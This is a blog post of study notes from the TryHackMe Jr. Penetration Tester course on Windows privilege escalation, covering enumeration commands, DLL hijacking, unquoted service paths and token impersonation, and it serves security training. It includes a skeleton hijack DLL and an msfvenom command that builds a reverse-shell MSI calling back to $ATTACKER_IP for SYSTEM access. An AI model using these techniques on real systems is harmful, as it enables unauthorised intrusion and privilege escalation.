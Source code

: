 ```yaml
---
title: 'TryHackMe: Jr. Penetration Tester'
date: 2022-04-21 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-04-21-tryhackme-jr-penetration-tester.html
author: 100007
---
```


# TryHackMe: Jr. Penetration Tester

**author:** Nathan Acks  
**date:** 2022-04-21

# Windows PrivEsc

## Introduction

Common Windows user levels:

- Local Admin
- Local User
- Guest User
- Domain User
- Domain Admin

Note that non-admin domain users may still be local admins.

Note that most Windows antivirus products will not allow enumeration scripts to be run.

Here’s a useful checklist:

- [Windows - Privilege Escalation (PayloadsAllTheThings)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

## Information Gathering

- `whoami /priv` - current user + privileges
- `net user` - list all (local) users
- `net user $USERNAME` - get details for user `$USERNAME`
- `net localgroup` - list all (local) groups
- `net localgroup $GROUP` – list user in group `$GROUP`
- `query session` - list other users who are currently logged in
- `systeminfo` - return system info
- `hostname` - return system hostname
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` - list installed updates (only Windows 10 21H1 and older)
- `schtasks` - list scheduled tasks
- `driverquery` - list installed drivers
- `sc` - query (and manipulate) services (does not work in PowerShell!)

Note that the `findstr` command is the Windows equivalent of `grep` (and sometimes also `find`). Also remember that you can use pipe in Windows!

Note that Windows provides the `netstat` command, and it recognizes all of the switches we’d hope it does. Note, however, that `-o` displays the PID of the process using the connection on Windows.

Microsoft Defender uses the service name `windefend`.

- [Using “netstat”](https://cardboard-iguana.com/notes/netstat.html)

## Tools of the Trade

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [Metasploit](https://cardboard-iguana.com/notes/metasploit.html)

Notes:

- WinPEAS is detected and quarantined by Microsoft Defender by default.
- PowerUp may require an unrestricted PowerShell session (`powershell -nop -exec bypass`), which can raise alerts.
- Windows Exploit Suggester analyzes the output of `systeminfo`, and can be run on the attacker’s machine.
- The `multi/recon/local_exploit_suggester` module works through Meterpreter to analyze a Windows system for potential vulnerabilities.

## Vulnerable Software

- `wmic product` - list all installed software (but misses 32-bit applications installed on a 64-bit OS)
- `wimc service list brief` - another way of listing services

## DLL Hijacking

Basically, this is the Windows equivalent of exploiting `LD_PRELOAD` or `LD_LIBRARY_PATH`.

Windows DLL search order if `SafeDllSearchMode` is enabled:

- The application directory
- The system directory (as returned by `GetSystemDirectory()`)
- The 16-bit (!) system directory
- The Windows directory (as returned by `GetWindowsDirectory()`)
- The current directory (!)
- The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

- The application directory
- The current directory (!)
- The system directory (as returned by `GetSystemDirectory()`)
- The 16-bit (!) system directory
- The Windows directory (as returned by `GetWindowsDirectory()`)
- The system `PATH` (!)

It seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run). So, local testing!

A skeleton DLL:

```
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /C whoami > C:\Temp\dll.txt");
ExitProcess(0);
}
return TRUE;
}
```

Compile with mingw (this _can_ be done on Linux!):

```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

Note that Windows _also_ comes with `wget`!

```
# Change user foo's password to "bar" (requires admin/SYSTEM
# authority):
#
net user foo bar
#
# Note that this does *NOT* bypass any password complexity
# requirements!
```

- [Exploiting LD\_PRELOAD](https://cardboard-iguana.com/notes/exploiting-ld-preload.html)
- [Exploiting LD\_LIBRARY\_PATH](https://cardboard-iguana.com/notes/exploiting-ld-library-path.html)

## Unquoted Service Path

Formally, when Windows encounters an unquoted service path it tries _all_ possible paths, from shortest to longest. Thus `C:\Program Files\service path\service.exe` will cause Windows to look for the following executables, in order:

- `C:\Program.exe`
- `C:\Program Files\service.exe`
- `C:\Program Files\service path\service.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

Print out all services:

```
wmic service get name,displayname,pathname,startmode
```

You can inspect the service paths in this output to see if any have spaces _and_ are unquoted.

When checking the permissions of a folder, note that the Windows File Explorer isn’t good about displaying permissions for users who have _multiple_ applied ACLs. Use `icacls` or `Get-Acl $PATH | Format-List`, and be sure to keep your eyes peeled for duplicate user entries (_all_ of which will be applied!).

Find a file in Windows:

```
dir $FILE_NAME /S
```

- [How to find a file or folder in MS-DOS or Windows command line](https://www.computerhope.com/issues/ch000309.htm)

## Token Impersonation

Prior to Windows 10 1809 / Server 2019, services could be forced to authenticate to a local port controlled by a low-privilege attacker, which would then allow the attacker to proxy and capture the NTLM handshake and thus (typically) a SYSTEM token. (This vulnerability _technically_ still exists, its just that unprivileged accounts can no longer use this token; check to see if the output of `whoami /priv` contains the `SeImpersonatePrivilege` privilege to see if you’ve gotten lucky.)

Exploits in this family are typically named “X Potato” after the first exploit, “Hot Potato”.

## Quick Wins

(1) Look for defunct (but still running) scheduled tasks with running as a more highly privileged account that point to a path you can control.

(2) If `AlwaysInstallElevated` is set to 1 under both of the following keys, then MSI installers will run as SYSTEM.

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
-f msi -o $INSTALLER.msi
```

Then install on the target to gain SYSTEM:

```
msiexec /quiet /qn /i $INSTALLER.msi
```

(3) Check for saved passwords of othe users with `cmdkey /list`. If any exist, then they can be used in `runas` with the `/savecred` flag.

(4) Sometimes registry keys contain passwords! Apparently, you can query/search across registry keys using `reg query ...`.

(5) Windows uses a file called `unattend.xml` to store setup auto-configuration information. Check if these have been left lying around.

